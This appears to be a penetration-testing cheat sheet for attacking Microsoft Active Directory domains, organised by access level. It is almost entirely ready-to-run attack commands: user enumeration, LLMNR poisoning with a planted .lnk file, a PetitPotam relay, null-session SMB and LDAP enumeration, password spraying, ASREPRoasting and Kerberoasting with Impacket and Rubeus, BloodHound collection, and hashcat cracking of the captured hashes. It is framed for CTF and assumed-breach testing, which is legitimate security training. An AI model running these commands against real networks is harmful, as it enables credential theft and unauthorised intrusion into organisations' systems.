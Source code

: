 # Active Directory Methodology

### 1) Unauthenticated

1) User Enumeration

Enumerate possible names you might encounter, then use kerbrute to verify the validity of the users within the AD Domain

        kerbrute userenum -d DOMAIN --dc DC_IP users.txt

Blind user enumeration (No info)

        kerbrute userenum -d DOMAIN --dc DC_IP xato-10million-users.txt

Do the RID Cycling attack to enumerate users

        netexec smb IP -u anonymous -p '' --rid-brute > rid.txt

        cat rid.txt | grep SidTypeUser | awk '{print $6}' | awk -F\ '{print $2}' > users.txt

OR

        net rpc group members 'Domain Users' -W 'DOMAIN' -I IP -U '%'



2) LLMNR poisoning

Use responder to capture Net-NTLMv2 hash, then crack it with hashcat. The scenario could be mentioned somewhere in a CTF setup.

        sudo responder -I eth0

Then upload a .lnk file or similar to the target share/folder that points to our responder IP so that the victim will trigger the file and finally capture his hash.

        hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

3) PetitPotam (Unauth) CVE-2022-26925

If SMB signing is not enabled/enforced, you can conduct relay attacks. PetitPotam is one of them

        python3 PetitPotam.py -d DOMAIN ATTACK_IP TARGET_IP

4) LDAP Enumeration

If LDAP port is open, try to do an unauthenticated LDAP query.

Tools: ldapsearch, windapsearch, netexec, ldapdomaindump

Verify if you can use LDAP

        netexec ldap DC_IP

Use tools like ldapdomaindump or ldapsearch to dump LDAP information

        ldapsearch -x -h DC_IP -s base

        ldapdomaindump HOSTNAME

5) SMB Enumeration

Enumerate SMB shares for gathering information like AD credentials, users, etc

Tools: enum4linux, smbclient, netexec, smbmap

        enum4linux -a -u "" -p "" DC_IP && enum4linux -a -u "guest" -p "" DC_IP (Null session and guest access enumeration)

        smbmap -u "" -p "" -P 445 -H DC_IP && smbmap -u "guest" -p "" -P 445 -H DC_IP

        smbclient-U '%' -L //DC_IP && smbclient -U 'guest%' -L //DC_IP

        netexec smb IP -u '' -p '' (Null session)

        netexec smb IP -u 'a' -p '' (Anonymous logon)

### 2) Valid Username Only

Try to further enumerate the domain, or even conduct some attacks with only a valid username

1) Password Spray

If we managed to find a password, but we do not know which user, we can spray the password on different users we have enumerated until we get a hit

Enumerate Password Policy first

        netexec IP -u 'USER' -p 'PASSWORD' --pass-pol

        enum4linux -u 'USERNAME' -p 'PASSWORD' -P IP

        Get-ADDefaultDomainPasswordPolicy

        Get-ADFineGrainedPasswordPolicy -filter * (Fine Grained Password Policy (FGPP)

        Get-ADUserResultantPasswordPolicy -Identity USER

        ldapsearch-ad.py --server 'DC' -d DOMAIN -u USER -p PASS --type pass-pols

Conduct a password spray attack

        netexec smb DC_IP -u USER.TXT -p PASSWORD.TXT --no-bruteforce (Test user=password)

        netexec smb DC_IP -u USER.TXT -p PASSWORD.TXT (Multiple test)

        sprayhound -U USERS.TXT -d DOMAIN -dc DC_IP


2) ASREPRoasting

Use tools like Impacket-GetNPUsers and Rubeus to do an ASREPRoasting attack

Linux

        Impacket-GetNPUsers domain/username -no-pass -dc-ip DC_IP -outputfile asreproastinghashes.txt

        Impacket-GetNPUsers domain/ -usersfile usernames.txt -format hashcat -dc-ip DC_IP -dc-host dc.domain.local -outputfile hashesdomain.txt

Windows

        Rubeus.exe asreproast /format:hashcat

        Get-DomainUser -PreauthNotRequired -Properties SamAccountName (Enumerate ASREPRoastable users. Need a session for that to work.)

Then crack the hash with hashcat 

        hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

3) Blind Kerberoasting

Linux

        Impacket-GetUserSPNs -no-preauth "ASREP_USER" -usersfile "USER_LIST.TXT" -dc-host "DC_IP" "DOMAIN"/ (Blind Kerberoasting)

Windows

        Rubeus.exe kerberoast /domain:DOMAIN /dc:DC_IP /nopreauth: ASREP_USER /spns:USERS.TXT (Blind Kerberoasting)

### 3) Valid Credentials (Assumed Breach Scenarios)

In assumed breach scenarios, we can test various protocols and check for various misconfigurations and vulnerabilities if we have valid credentials on a domain.

1) Automation

Tools: adPEAS, Powerview/Sharpview, pingcastle

2) Bloodhound

Run bloodhound against a target domain controller to query any data via LDAP, then upload the data found to the bloodhound GUI and analyze your findings for privilege escalation and/or lateral movement.

Linux

        dnschef.py --fakeip TARGET_IP --nameserver TARGET_IP

        bloodhound-python -d DOMAIN -u USER -p PASSWORD -d DOMAIN.LOCAL -c all -ns 127.0.0.1

Windows

        SharpHound.exe --CollectionMethods all --Domain DOMAIN 

Then download the bloodhound.zip file generated by the tool to our local machine.

Now, run bloodhound on our machine with the following commands:

        sudo neo4j console start

        bloodhound --no-sandbox

Then login to your instance with your credentials, upload your files either by dragging the zip file, or unzip the file and select the .json files containing the data and you are good to go!

3) Kerberoasting

Enumerate Kerberoastable users

        Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

Get TGS hash

Linux

        Impacket-GetUserSPNs -request -dc-ip DC_IP DOMAIN/USER:PASSWORD

Windows

        Rubeus kerberoast

Then, crack the hash with hashcat

        hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

